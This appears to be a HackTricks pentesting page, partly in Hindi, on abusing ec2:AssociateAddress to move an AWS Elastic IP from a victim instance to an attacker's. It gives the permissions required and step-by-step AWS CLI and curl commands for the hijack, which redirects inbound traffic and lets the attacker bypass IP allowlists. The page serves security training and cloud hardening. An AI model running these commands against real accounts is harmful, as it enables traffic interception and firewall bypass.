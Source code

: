 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## सारांश

Abuse `ec2:AssociateAddress` (and optionally `ec2:DisassociateAddress`) का उपयोग करके किसी victim instance/ENI से एक Elastic IP (EIP) को पुनः असाइन करके attacker instance/ENI पर ले जाएं। यह EIP के लिए निर्धारित इनबाउंड ट्रैफ़िक को attacker की ओर पुनर्निर्देशित करता है और हमलावर को allowlisted सार्वजनिक IP के साथ आउटबाउंड ट्रैफ़िक उत्पन्न करने की अनुमति देता है ताकि बाहरी पार्टनर फ़ायरवॉल को बाईपास किया जा सके।

## पूर्वापेक्षाएँ
- उसी account/VPC में लक्ष्य EIP allocation ID।
- आपके नियंत्रण में मौजूद attacker instance/ENI।
- अनुमतियाँ:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` on the EIP allocation-id and on the attacker instance/ENI
- `ec2:DisassociateAddress` (optional). नोट: `--allow-reassociation` पिछली attachment से स्वतः disassociate कर देगा।

## हमला

वेरिएबल्स
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) victim की EIP आवंटित करें या पहचानें (लैब एक नया आवंटित करता है और इसे victim से संलग्न करता है)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) सुनिश्चित करें कि EIP वर्तमान में लक्षित सेवा पर रेज़ॉल्व होता है (उदाहरण: बैनर की जाँच)
```bash
curl -sS http://$EIP | grep -i victim
```
3) EIP को attacker के साथ पुनः-एसोसिएट करें (victim से auto-disassociates)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) सत्यापित करें कि EIP अब attacker service की ओर resolve होता है
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
सबूत (स्थानांतरित एसोसिएशन):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Impact
- Inbound impersonation: hijacked EIP की ओर जाने वाला सारा ट्रैफ़िक attacker instance/ENI को पहुँचाया जाता है.
- Outbound impersonation: Attacker ऐसा ट्रैफ़िक आरंभ कर सकता है जो allowlisted public IP से उत्पन्न होने जैसा दिखता है (partner/external source IP filters को बायपास करने के लिए उपयोगी).

{{#include ../../../../banners/hacktricks-training.md}}
